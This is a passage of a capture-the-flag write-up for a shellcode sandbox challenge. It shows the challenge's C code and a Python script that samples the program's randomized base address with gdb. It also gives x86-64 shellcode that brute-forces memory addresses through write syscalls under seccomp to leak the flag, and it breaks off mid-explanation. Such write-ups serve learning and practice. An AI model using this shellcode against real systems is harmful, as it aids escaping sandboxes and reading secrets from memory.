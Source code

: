 ```c
  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));
  read(0, addr + sizeof(HEADER) - 1, SIZE);

  setup();
  goto *addr;
}
```

It'll read 0x100 bytes into executable memory and then execute it with the flag in memory. The catch? We're operating under seccomp (can do nothing besides write to stdout and exit) and the header resets every register except RIP. Additionally, we're executing in mmapped memory so we can't correlate the instruction pointer to the program base. So, what do we do?

## "I would simply brute force it" - me

We don't have a lot of information to work with -- in fact, almost nothing. What we *do* have is a write syscall and the fact that segmentation faults in a syscall won't propagate to the parent program. If we check address via a shellcode brute forcer thats an address every like 8 cpu instructions. That's looking quite tractable. 

I wrote a quick python script to get reasonable lower bounds on program base (aka run it 1000 times and see my min/max look like) and then got to writing shellcode. 

```python
import os
from tqdm.contrib.concurrent import process_map

def get_base(a):
	base = os.popen("""gdb chall --batch --nx --ex "set disable-randomization off" --ex "b main" --ex "r" --ex "info proc map" | grep "0x0 /home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall" | tr -s ' ' | cut -d' ' -f2 """).read()
	return int(base,16)

if __name__ == '__main__':
   bases = process_map(get_base, range(0, 1000), max_workers=20)
   print("[*] min base: " + hex(min(bases)))
   print("[*] max base: " + hex(max(bases)))
```

```nasm
mov r10, 0x555572800000
add r10, 0x202060
/* jump here */
add r10, 1048576

mov rax, 1
mov rdi, 1
mov rsi, r10
mov rdx, 100
syscall
cmp rax, 0
jle $-0x25
mov rax, 60
mov rdi, 0
syscall
```
The logic looks like this
